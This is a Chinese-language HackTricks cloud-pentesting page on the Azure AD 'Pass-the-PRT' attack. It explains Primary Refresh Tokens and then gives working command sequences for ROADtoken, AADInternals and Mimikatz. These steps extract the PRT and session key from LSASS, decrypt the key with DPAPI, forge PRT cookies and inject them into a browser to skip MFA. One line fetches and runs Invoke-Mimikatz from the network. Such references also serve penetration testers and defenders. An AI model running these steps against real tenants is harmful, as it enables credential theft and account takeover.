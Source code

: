 # Az - 传递PRT

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的账号 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## 什么是PRT

**主要刷新令牌（PRT）**用于为Windows 10和移动操作系统的用户提供**单一登录（SSO）**体验。

当您在支持此SSO的设备上登录时，Windows将与云身份验证提供程序进行通信，验证您的凭据，并返回**PRT**和**会话密钥**。**PRT存储在LSASS中**，而**会话密钥会被重新加密**，然后与PRT一起存储在本地设备的TPM中。

然后，当**浏览器**尝试访问云上的资源时，会使用**PRT cookie**来访问它们。

一旦发行，**PRT**在**14天**内有效，并且只要用户主动使用设备，就会**持续更新**。只有在访问RDP时使用**Windows Hello**或**Windows账户管理器**时，PRT才具有**MFA声明**。

它可以用于获取任何应用程序的访问和刷新令牌。

有关此工作原理的更多信息，请阅读[**文档**](https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token)或[**此页面**](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/)。

### 检查是否有PRT
```
Dsregcmd.exe /status
```
在SSO状态部分，您应该看到**`AzureAdPrt`**设置为**YES**。

<figure><img src="../../../.gitbook/assets/image (10) (3).png" alt=""><figcaption></figcaption></figure>

在同一输出中，您还可以查看设备是否已加入Azure（在字段`AzureAdJoined`中）：

<figure><img src="../../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

## Pass-the-PRT

### 步骤

1. **从LSASS中提取**PRT并保存以备后用。
2. **提取**会话密钥。如果您记得，这是由本地设备发出并重新加密的，因此我们需要使用DPAPI主密钥**解密此密钥**。有关DPAPI的更多信息，请查看此[**HackTricks**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords)链接或[**Pass-the-cookie attack**](az-pass-the-cookie.md)。
3. 使用解密的会话密钥，我们将获得PRT和上下文的派生密钥。这是创建我们的PRT cookie所需的。派生密钥用于为cookie签名JWT。Dirk-jan在[这里](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/)对这个过程进行了很好的解释。

现在我们拥有了签署自己的PRT Cookies所需的一切，其余步骤可以在任何其他系统上完成。

* 我们将使用PRT、派生密钥和上下文来创建新的PRT Cookie。
* 将Cookie导入到您的浏览器会话中（我们将使用Chrome）
* 就这样！您现在应该已经通过身份验证，而无需知道其密码或处理任何MFA提示。

### 攻击 - Roadtoken

有关此方法的更多信息，请[**查看此文章**](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/)。要生成有效的PRT cookie，您首先需要一个nonce。\
您可以使用以下方式获取：
```powershell
$TenantId = "19a03645-a17b-129e-a8eb-109ea7644bed"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
"URI"     = $URL
"Method"  = "POST"
}
$Body = @{
"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
AwABAAAAAAACAOz_BAD0_8vU8dH9Bb0ciqF_haudN2OkDdyluIE2zHStmEQdUVbiSUaQi_EdsWfi1 9-EKrlyme4TaOHIBG24v-FBV96nHNMgAA
```
或者使用[**roadrecon**](https://github.com/dirkjanm/ROADtools)：
```powershell
roadrecon auth prt-init
```
然后你可以使用[**roadtoken**](https://github.com/dirkjanm/ROADtoken)来获取一个新的PRT（在工具中运行用户进程进行攻击）：
```powershell
.\ROADtoken.exe <nonce>
```
作为一行代码： 

{% code overflow="wrap" %}
```powershell
Invoke-Command - Session $ps_sess -ScriptBlock{C:\Users\Public\PsExec64.exe - accepteula -s "cmd.exe" " /c C:\Users\Public\SessionExecCommand.exe UserToImpersonate C:\Users\Public\ROADToken.exe AwABAAAAAAACAOz_BAD0__kdshsy61GF75SGhs_[...] > C:\Users\Public\PRT.txt"}
```
{% endcode %}

然后，您可以使用**生成的 cookie**来**生成令牌**，以使用 Azure AD **Graph** 或 Microsoft Graph 进行**登录**：
```powershell
roadrecon auth --prt-cookie <prt_cookie>

Connect-AzureAD --AadAccessToken <token> --IaccountId <acc_ind>
```
### 攻击 - 使用AADInternals

`Get-AADIntUserPRTToken` 从 Azure AD 加入或混合加入的计算机中获取用户的 PRT 令牌。使用 `BrowserCore.exe` 获取 PRT 令牌。
```powershell
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
```
或者，如果您拥有Mimikatz的值，您也可以使用AADInternals生成一个令牌：
```powershell
# Mimikat "PRT" value
$MimikatzPRT="MC5BWU..."

# Add padding
while($MimikatzPrt.Length % 4) {$MimikatzPrt += "="}

# Decode
$PRT=[text.encoding]::UTF8.GetString([convert]::FromBase64String($MimikatzPRT))

# Mimikatz "Clear key" value
$MimikatzClearKey="37c5ecdfeab49139288d8e7b0732a5c43fac53d3d36ca5629babf4ba5f1562f0"

# Convert to Byte array and B64 encode
$SKey = [convert]::ToBase64String( [byte[]] ($MimikatzClearKey -replace '..', '0x$&,' -split ',' -ne ''))

# Generate PRTToken with Nonce
$prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey -GetNonce
$prtToken
## You can already use this token ac cookie in the browser

# Get access token from prtToken
$AT = Get-AADIntAccessTokenForAzureCoreManagement -PRTToken $prtToken

# Verify access and connect with Az. You can see account id in mimikatz prt output
Connect-AzAccount -AccessToken $AT -TenantID <tenant-id> -AccountId <acc-id>
```
前往[https://login.microsoftonline.com](https://login.microsoftonline.com)，清除所有login.microsoftonline.com的cookies，并输入一个新的cookie。
```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```
然后转到[https://portal.azure.com](https://portal.azure.com)&#x20;

{% hint style="danger" %}
其余部分应该是默认的。确保您可以刷新页面并且cookie不会消失，如果消失了，可能是您犯了一个错误，需要重新进行该过程。如果没有消失，那就没问题了。
{% endhint %}

### 攻击 - Mimikatz

{% hint style="warning" %}
自2021年8月修复以来，无法使用此方法获取其他用户的PRT令牌，因为只有用户可以获取自己的PRT（本地管理员无法访问其他用户的PRT），但可以访问自己的PRT。
{% endhint %}

{% hint style="danger" %}
**上次我尝试生成cookie的方法没有成功**
{% endhint %}

您可以使用**mimikatz**来提取PRT：
```powershell
mimikatz.exe
Privilege::debug
Sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```
<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

**复制**标记为**Prt**的部分并保存。\
还要提取会话密钥或“**ProofOfPosessionKey**”，您可以在下面的高亮部分看到。这是加密的，我们需要使用DPAPI主密钥来解密它。

<figure><img src="../../../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
如果您没有看到任何PRT数据，可能是因为您的设备没有加入Azure AD，或者您正在运行旧版本的Windows 10。
{% endhint %}

要解密会话密钥，您需要提升权限到**SYSTEM**以在计算机上下文中运行，以便能够使用**DPAPI主密钥来解密它**。您可以使用以下命令来执行此操作：
```
token::elevate
dpapi::cloudapkd /keyvalue:[PASTE ProofOfPosessionKey HERE] /unprotect
```
<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

现在你想要复制Context值：

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

以及派生密钥值：

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

最后，你可以使用所有这些信息来**生成PRT cookies**：
```
Dpapi::cloudapkd /context:[CONTEXT] /derivedkey:[DerivedKey] /Prt:[PRT]
```
<figure><img src="../../../.gitbook/assets/image (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

前往[https://login.microsoftonline.com](https://login.microsoftonline.com)，清除所有login.microsoftonline.com的cookie并输入新的cookie。
```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```
然后转到[https://portal.azure.com](https://portal.azure.com)&#x20;

{% hint style="danger" %}
其余部分应该是默认的。确保您可以刷新页面并且cookie不会消失，如果消失了，可能是您犯了一个错误，必须重新进行该过程。如果没有消失，那就没问题了。
{% endhint %}

## 参考资料

* 本文主要摘自[https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/)

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF格式的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的账号 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>
